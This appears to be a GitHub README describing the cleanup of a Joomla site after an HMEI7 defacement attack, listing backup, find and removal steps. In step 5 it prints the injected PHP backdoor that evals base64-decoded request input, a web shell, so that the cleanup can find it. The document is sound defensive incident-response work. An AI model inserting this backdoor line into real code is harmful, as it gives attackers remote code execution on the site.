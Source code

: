 Hmei7-cleanup
=============

Background:
===========
I had to clean up after an HMEI7 script attack on a Joomla site this morning and 
figured I should share my efforts. The site owner did not have a recent backup, so
the decision was made to clean up the existing site.

The HMEI7 script is rather crude in its approach. It modified the index.php page 
and and replaced it with Base64 encoded version that containing another Base64 
encoded redirect to some external site. A good number of .PHP scripts were modified 
with additional lines of code that would prevent the site from working even after the 
index page was restored. I wrote a small script that tracked down the modified pages
and removed the unwanted code.

Clean up:
=========

0.	Backed up the existing files.

		tar cjf cms.tar.bz2 cms/

1. 	Identify the time of the attack. The script drops its signature into x.txt in the root 
	folder. The file contains "hacked by Hmei7". Noted the modification time of the file
   
2. 	Find all files that were modified since that time. In my case 2 days
 
 		find . -mtime -2 >modified_files.txt
	
	Copied that file per FTP to my laptop for later reference

3.	The attack script added number of new files. Removed all

		find . -name "index.old.php" -exec rm -f {} \;
		find . -name "index.1.php" -exec rm -f {} \;
		find . -name "class.back.php" -exec rm -f {} \;

4.  Cleared out the tmp folders

5.	Analyzed the modified file and found a pattern. The modified PHP files contained the 
	following additional code. It would be either on be on 1 line or on 3.
	
		<?PHP defined('_OLD_JEXEC_') or die(@eval(base64_decode($_REQUEST['comment']))); ?>

		<?PHP
		 defined('_OLD_JEXEC_') or die(@eval(base64_decode($_REQUEST['comment'])));
		?><?php...
		
	I wrote and ran the cleanup.py script to deal with those. The script creates back up
	copies of every file modified by adding the extension .bad to the file name. Once the 
	site is restored these can be deleted with
	
		find . -name "*.bad" -exec rm -f {} \;
	
6.	Checked the .htaccess files

7.	Checked the configuration.php file

8.	Removed the x.txt file under root

9.	Copied the index.php back from backup and et voila the site was up again

10. Ran a quick grep tests to make sure I did not miss any files.


